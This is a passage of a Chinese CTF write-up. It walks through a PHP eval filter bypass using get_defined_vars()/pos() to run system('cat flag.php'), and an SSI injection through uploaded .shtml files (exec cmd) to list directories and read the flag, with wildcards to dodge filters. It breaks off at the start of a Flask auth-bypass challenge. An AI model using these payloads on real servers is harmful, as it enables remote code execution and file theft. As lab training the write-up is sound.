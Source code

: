 ![image-20220113114626736](https://img-blog.csdnimg.cn/img_convert/492606868e4c5b7ee1240c16d49da4cb.png)

当我们传入
`code=var_dump(get_defined_vars());&a=phpinfo();`
两变量时，我们自定义的变量a也出现在输出的变量中，我们便可以利用自定义的变量来绕过对code的限制进行rce
我们要想取到我们自定义变量的值，就需要使用函数来获取数组中的某一个值![在这里插入图片描述](https://img-blog.csdnimg.cn/img_convert/c9973d8e816565f1e25b5cadaaf66d18.png)

我们可以在get_defined_vars()前面加一个pos()用来去掉无关的变量

```
code=var_dump(pos(get_defined_vars()));&a=phpinfo();
```

![image-20220113114830289](https://img-blog.csdnimg.cn/img_convert/0b9dbb77b5c6abda4d809cd759a948eb.png)

如果此时再用一个pos()将会取出code的值，于是我们可以把两个变量的位置交换之后再用pos()便可以取出我们自定义变量的值

最终payload：
`a=system('cat flag.php');&code=eval(pos(pos(get_defined_vars())));`
在注释中找到flag

![image-20220113114930314](https://img-blog.csdnimg.cn/img_convert/6b5b32e9cbfc17a1386281281041897b.png)

*payload：`?code=system(array_rand(array_flip(current(get_defined_vars()))));&b=cat%09flag.php`*

### 【Baby_Upload】

![image-20220113120258881](https://img-blog.csdnimg.cn/img_convert/129136b313320b1da7499de255d81832.png)

做这道题会发现加了对文件内容的检测，过滤了一些符号，不过不会影响正常解题，过滤了`ph,ini,htaccess`，绕过不去，可以`shtml`来利用SSI注入RCE，但是过滤了很多命令，测试发现`ls`被过滤

`ls`被过滤可以使用`dir`来列目录：

`<!--#exec cmd="dir /"-->`，存为![image-20220113120501689](https://img-blog.csdnimg.cn/img_convert/5e1aa323a66df182405f00d7599cdd92.png)

`1.shtml`之后上传，列出根目录，得知flag在`fffffflllll11111aaaaa4444ggggg`下，可以构造出：

`<!--#exec cmd="cut -b 1-100 /ffffff?llll11111aaaaa4444ggggg"-->`

（强调一下，这里使用？是因为fl被过滤了，用？来匹配）

来读取文件，存为`2.shtml`后上传获得flag。![image-20220113120703608](https://img-blog.csdnimg.cn/img_convert/ae7a40536e23ee7973c69e279960cef7.png)

### 【flask】

访问主页发现注释中有提示

![ ](https://img-blog.csdnimg.cn/img_convert/723a664982706e4eb3f98e5b1b33192b.webp?x-oss-process=image/format,png)

/admin  /static.js  一段python代码 此段代码为后端的URL Filter 当请求js类静态文件时不需要认证，而在请求其他路径时则会被重定向到login 在flask的官方文档中

![ ](https://img-blog.csdnimg.cn/img_convert/7a550f751b0424e53280b3976be4cdf7.webp?x-oss-process=image/format,png)
